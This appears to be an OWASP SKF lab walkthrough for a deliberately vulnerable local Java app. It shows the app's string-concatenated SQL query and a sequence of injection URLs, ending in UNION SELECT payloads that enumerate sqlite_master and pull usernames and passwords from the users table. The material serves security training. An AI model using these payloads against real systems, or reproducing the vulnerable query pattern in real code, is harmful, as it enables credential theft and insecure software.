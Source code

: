# SQLI \(Like\)

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:java-sqli-like
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:java-sqli-like
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

### Step1

The first step is to identify parameters which could be potentially used in an SQL query to communicate with the underlying database. In this example we find that the "/home" method grabs data by page name and displays the content.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/java/SQLI-Like/1.png)

```text
http://localhost:5000/home/Admin
```

### Step2

Now let's see if we can create an error by injecting a single quote

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/java/SQLI-Like/2.png)

```text
http://localhost:5000/home/Admin'
```

By doing so the SQL query syntax is now faulty. This is due to the fact that the user supplied input is being directly concatenated into the SQL query.

```java
  public List<User> getUser(String username) {
        String sql = "SELECT UserName, email FROM users WHERE UserName LIKE '%" + username + "%' ORDER BY UserId";
        List<User> users = jdbcTemplate.query(sql, (resultSet, rowNum) -> new User(rowNum,
                resultSet.getString("UserName"), resultSet.getString("email"), sql));
        return users;
    }
```

### Step3

Now we need to inject characters to make the SQL query syntactically correct.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/java/SQLI-Like/3.png)

```text
http:////localhost:5000/home/Admin%25'--
```

After that we inject a logical operator which is true \(and 1=1\). This should result in the application run as intended without errors.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/java/SQLI-Like/4.png)

```text
http://localhost:5000/home/Admin%25' AND 1=1--
```

## Exploitation

Now that we know that the application is vulnerable for SQL injections we are going to use this vulnerability to read sensitive information from the database. This process could be automated with tools such as SQLMAP. However, for this example let's try to exploit the SQL injection manually.

### Step1

The UNION operator is used in SQL injections to join a query, purposely forged to the original query. This allows to obtain the values of columns of other tables. First we need to determine the number of columns used by the original query. We can do this by trial and error.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/java/SQLI-Like/5.png)

```text
http://localhost:5000/home/Admin%25' union select 1--
```

This query results in an error, this is due to the fact that the original query started with 2 columns namely  
\* UserName \* email

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/java/SQLI-Like/6.png)

```text
http://localhost:5000/home/Admin%25' union select 1,2--
```

Notice how "UserName" and "email" became placeholders for data we want to retrieve from the database

### Step 2

Now that we determined the number of columns we need to take, the next step is querying system tables to check which tables are stored in the Database. From the error message in the first picture, we can determine a SQLite DB is being used. As the application didn't return an error, our guess is correct.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/java/SQLI-Like/7.png)

```text
http://localhost:5000/home/Admin%25' UNION SELECT 1,2 from sqlite_master--
```

#### Step 3

Now we need to discover the table and columns name of the table we want to extract. As the application only displays the first result, we need to play with SQL Limit.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/java/SQLI-Like/8.png)

```text
http://localhost:5000/home/Admin%25' union select tbl_name,sql from sqlite_master limit 1,1--
```

#### Step 4

Now we have all the information required to extract data from _users_ table. Play with SQL Limit to get credentials from more users.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/java/SQLI-Like/9.png)

```text
http://localhost:5000/home/Admin%25' union select UserName,Password from users limit 0,1--
```

## Additional sources

Please refer to the OWASP testing guide for a full complete description about SQL injection with all the edge cases over different platforms!

{% embed url="https://owasp.org/www-community/attacks/SQL_Injection" %}

SQLite Reference

{% embed url="https://www.sqlitetutorial.net/sqlite-java/query/" %}
